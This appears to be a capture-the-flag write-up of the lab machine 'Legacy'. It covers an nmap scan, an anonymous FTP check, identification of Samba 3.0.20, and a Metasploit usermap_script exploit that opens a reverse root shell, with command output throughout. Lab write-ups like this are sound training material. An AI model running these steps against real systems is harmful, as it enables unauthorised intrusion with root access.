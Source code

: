 # Legacy

Machine Level: Easy <br />
OS: 

## Scanning
I ran an aggressive NMAP script to determine the services and OS on the box. 
```
ajread@aj-ubuntu:~$ nmap -A [TARGET IP]-Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2023-01-21 15:55 EST
Nmap scan report for [TARGET IP]
Host is up (0.019s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to [LOCAL IP]
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
|_smb-security-mode: ERROR: Script execution failed (use -d to debug)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.81 seconds
```
There wasn't anything that I could find on ```ftp```. 
```
ajread@aj-ubuntu:~$ ftp [TARGET IP]
Connected to [TARGET IP].
220 (vsFTPd 2.3.4)
Name (10.10.10.3:ajread): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||64004|).
150 Here comes the directory listing.
226 Directory send OK.
ftp> exit
221 Goodbye.
```
With the SMB scanner, I was able to determine that the version was Samba 3.0.20-Debian. 
```
[*] [TARGET IP]:445        - SMB Detected (versions:1) (preferred dialect:) (signatures:optional)
[*] [TARGET IP]:445        -   Host could not be identified: Unix (Samba 3.0.20-Debian)
[*] [TARGET IP]:           - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
## Initial Access
I searched for the version of Samba in metasploit and found an excellent module for ```usermap_script``` to complete RCE. According to Rapid7, specifying a username with shell meta-characters allows a user to run commands. 

I set the appropriate inputs and ran the exploit in metasploit, which dropped me into a root shell! 
```
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on [LOCAL IP]:4444 
[*] Command shell session 1 opened ([LOCAL IP]:4444 -> [TARGET IP]:40884) at 2023-01-21 16:17:41 -0500

whoami
root
id
uid=0(root) gid=0(root)
```
I was able to read the user and root flags. 
```
wc -c user.txt
33 user.txt
wc -c /root/root.txt
33 /root/root.txt
```